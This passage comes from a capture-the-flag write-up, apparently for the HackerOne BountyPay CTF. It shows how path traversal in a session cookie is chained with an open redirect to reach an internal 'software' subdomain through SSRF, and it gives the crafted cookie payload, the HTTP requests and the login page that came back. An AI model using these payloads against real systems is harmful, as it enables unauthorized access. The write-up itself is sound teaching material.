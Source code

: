 ```http
HTTP/1.1 200 OK
Content-Type: application/json

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK#\/statements?month=05&year=2020","data":"{\"account_id\":\"F8gHiqSdpK\",\"owner\":\"Mr Brian Oliver\",\"company\":\"BountyPay Demo \"}"}
```

We even found another endpoint and got some data back for Brian, but it doesn't seem to be particularly useful. Recall now that we have a `software` subdomain which looked like an obvious target for SSRF. But we can only do Path Traversal so far. This is where we clearly need to chain Path Traversal with a redirect to access `software` subdomain. Our payload (decoded session cookie) thus becomes: `{"account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/#","hash":"de235bffd23df6995ad4e0930baac1a2"}`

```http
GET /statements?month=05&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
Cookie: token=eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOi8vc29mdHdhcmUuYm91bnR5cGF5LmgxY3RmLmNvbS8jIiwiaGFzaCI6ImRlMjM1YmZmZDIzZGY2OTk1YWQ0ZTA5MzBiYWFjMWEyIn0=
```

This presents us with a login panel. Extracting HTML from JSON response and prettifying it gives us:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Software Storage</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<div class="container">
    <div class="row">
        <div class="col-sm-6 col-sm-offset-3">
            <h1 style="text-align: center">Software Storage</h1>
            <form method="post" action="/">
                <div class="panel panel-default" style="margin-top:50px">
                    <div class="panel-heading">Login</div>
                    <div class="panel-body">
                        <div style="margin-top:7px"><label>Username:</label></div>
                        <div><input name="username" class="form-control"></div>
                        <div style="margin-top:7px"><label>Password:</label></div>
                        <div><input name="password" type="password" class="form-control"></div>
                    </div>
                </div>
                <input type="submit" class="btn btn-success pull-right" value="Login">
            </form>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```
